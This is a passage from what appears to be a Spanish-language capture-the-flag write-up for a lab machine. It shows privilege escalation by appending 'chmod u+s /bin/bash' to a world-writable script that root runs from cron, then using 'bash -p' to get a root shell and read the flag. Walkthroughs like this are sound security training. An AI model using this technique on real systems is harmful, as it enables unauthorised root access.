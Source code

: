 ```
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/bash /var/cron/check.sh
#
```

Vemos que el usuario `root` esta ejecutando un `crontab` respecto al archivo llamado `check.sh` vamos a investigar dicho archivo.

Si listamos los permisos del archivo veremos esto:

```shell
ls -la /var/cron/check.sh
```

Info:

```
-rwxrwxrwx 1 root root 153 Dec 21  2020 /var/cron/check.sh
```

Vemos que tambien lo podremos escribir, por lo que vamos abrir el archivo con `nano` y añadiremos una liena mas que sera la siguiente:

```shell
nano /var/cron/check.sh

#Dentro del nano
chmod u+s /bin/bash
................................<RESTO_DEL_CODIGO>.................................
```

Lo guardamos y solo tendremos que esperar un ratito a que se ejecute como `root`, despues de un rato si listamos la `bash` para ver si funciono, veremos esto.

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1168776 Apr 18  2019 /bin/bash
```

Vemos que efectivamente a funcionado, por lo que haremos esto:

```shell
bash -p
```

Info:

```
bash-5.0# whoami
root
```

Y con esto ya seremos el usuario `root` por lo que leeremos la `flag` de `root`.

> root.txt

```
~~~~~~~~~~~~~~~\
ROOTED INSOMNIA
~~~~~~~~~~~~~~~
Flag : [c84baebe0faa2fcdc2f1a4a9f6e2fbfc]

by Alienum with <3
```
